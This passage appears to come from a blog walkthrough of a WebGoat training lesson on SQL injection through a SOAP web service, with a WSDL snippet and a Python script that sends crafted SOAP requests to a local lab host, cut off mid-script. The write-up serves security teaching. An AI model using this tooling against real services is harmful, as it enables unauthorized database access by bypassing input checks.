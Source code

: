 ```
```

And we find one!

```
<wsdl:message name="getCreditCardRequest">
	<wsdl:part name="id" type="xsd:string"/>
</wsdl:message>
```

Whoops, looks like the ```user_id``` can be a string! Sounds like we can do some good old SQL injection on this field. However, when we try to perform it in the form on the page we get this error:

<img src="{{ site.baseurl }}/images/2017-02-02-webgoat_part_22/soap-sql-injection-error.jpg">

Hmm..looks like there might be some field checking on the client that sends our form data to the SOAP interface. Luckily we have our own SOAP client! Let's try to perform our SQL injection attack using the modified script:

{% highlight python %}
import sys
import requests
import lxml.etree as etree

def send_soap(method, user_id):
	soap_url = "http://192.168.56.101/WebGoat/services/WsSqlInjection?WSDL"
	headers={
		'content-type': 'application/soap+xml',
		"SOAPAction":""
	}
	cookies = dict(
		JSESSIONID="D49B1C7B6EE2243929D320213C6A9C1B",
		acopendivids="swingset,jotto,phpbb2,redmine",
		acgroupswithpersist="nada"
	)
	body = get_soap_request(method, user_id)
	r = requests.post(soap_url, data=body, headers=headers, cookies=cookies)
	formatted_response = etree.tostring(etree.fromstring(r.content), pretty_print=True)
	result_tag_name = "{}Return".format(method)
	print ("=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=")
	print ("SOAP Protocol Interaction:")
	for result in etree.fromstring(r.content).iter(result_tag_name):
		print ("Request: {}({}) | Response: {}".format(method, user_id, result.text))
	print ("=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=")

def get_soap_request(method, user_id):
	request_body = """<?xml version="1.0" encoding="UTF-8" standalone="no" ?>
	<SOAP-ENV:Envelope
	SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"
	xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/"
	xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/"
	xmlns:xsd="http://www.w3.org/2001/XMLSchema"
	xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
	<SOAP-ENV:Body>
		<m:{} xmlns:m="urn:SoapRequest">
			<id xsi:type="xsd:string">{}</id>
		</m:{}>
	</SOAP-ENV:Body>
	</SOAP-ENV:Envelope>
	""".format(method, user_id, method)
	
	return request_body

def main():
	try:
		send_soap(sys.argv[1], sys.argv[2])
	except: